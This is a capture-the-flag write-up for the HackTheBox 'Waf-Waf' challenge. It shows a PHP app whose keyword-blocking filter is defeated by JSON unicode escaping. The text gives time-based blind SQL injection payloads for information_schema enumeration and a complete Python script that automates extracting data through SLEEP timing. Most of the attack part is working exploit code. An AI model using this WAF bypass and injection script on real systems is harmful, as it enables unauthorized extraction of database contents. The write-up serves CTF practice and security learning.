



#  Waf-Waf : HackTheBox Challenge



- Start the machine and open the machine url `http://188.166.173.208:30915/` this will revealed us the application’s source code:



####Source Code : 
```bash
 <?php error_reporting(0);
require 'config.php';

class db extends Connection {
    public function waf($s) {
        if (preg_match_all('/'. implode('|', array(
            '[' . preg_quote("(*<=>|'&-@") . ']',
            'select', 'and', 'or', 'if', 'by', 'from', 
            'where', 'as', 'is', 'in', 'not', 'having'
        )) . '/i', $s, $matches)) die(var_dump($matches[0]));
        return json_decode($s);
    }

    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

$db = new db();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $obj = $db->waf(file_get_contents('php://input'));
    $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
} else {
    die(highlight_file(__FILE__, 1));
}
?> 
```


- I Got the database name after a while with below payload :

`"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(table_schema, 1, 1) FROM information_schema.tables WHERE table_schema LIKE '%db%' AND table_name LIKE '%flag%' LIMIT 1 ) = 'd' ,SLEEP(5),0))))x)-- wxyg"`

- Just after that, I have Got the table name with below payload :

`"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(table_name, {i}, 1) FROM information_schema.tables WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"`

- Same like I have got coloumn name with using below payload :
  
`"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(column_name, {i}, 1) FROM information_schema.columns WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"`

- This is the python script for exploiting it.

```bash
import requests
from time import time
from sys import argv
import string

# we have already got the database, table and column names
database = "db_m8452"
table = "definitely_not_a_flag"
column = "flag"

try:
	url = f"http://{argv[1]}/"
except :
	print(f"Usage: {argv[0]} <ip:port>")
	exit(-1)

char_set = string.ascii_lowercase + '_' #+ string.digits  
flag_set = string.ascii_lowercase + '_' + string.digits + '}' #+ string.ascii_uppercase 

def uni_encode(payload):
	result = ""
	for i in range(len(payload)):
		result += '\\u%.4X' % ord(payload[i])
	return result	

def fetch_data(url, len_, name):
	global database
	print("[*]Getting info...")
	res = ""
	#print('{"user":"%s"}' % payload)
	for i in range(1, len_+1):
		for char in char_set:
			payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(column_name, {i}, 1) FROM information_schema.columns WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"
			#print (payload)
			#exit()
			encoded_payload = uni_encode(payload)
			json_data = '{"user":"%s"}' % encoded_payload
			
			#print(encoded_payload)
			#print(json_data)
			try:
				start = time()
				r = requests.post(url, data=json_data)
				end = time()
			except :
				pass

			if (end - start) > 5:
				res += char
				print(f"[*]{name}: {res}")
				#break
			
	return res

def get_flag(url):
	global database, table, column
	print("[*]Getting Flag...")
	flag = "HTB{"
	
	while '}' not in flag:
		pos = len(flag) + 1
		for char in flag_set:
			payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR({column}, {pos}, 1) FROM {database}.{table} ) = '{char}', SLEEP(3), 0))))x)-- wxyg"
			#print (payload)
			#exit()
			encoded_payload = uni_encode(payload)
			json_data = '{"user":"%s"}' % encoded_payload
			
			#print(encoded_payload)
			#print(json_data)
			try:
				start = time()
				r = requests.post(url, data=json_data)
				end = time()
			except :
				pass

			if (end - start) > 3:
				flag += char
				print(f"[*]FLag: {flag}")
				break
	return flag


print(f"{get_flag(url)}")
```
- Here we got the flag... 

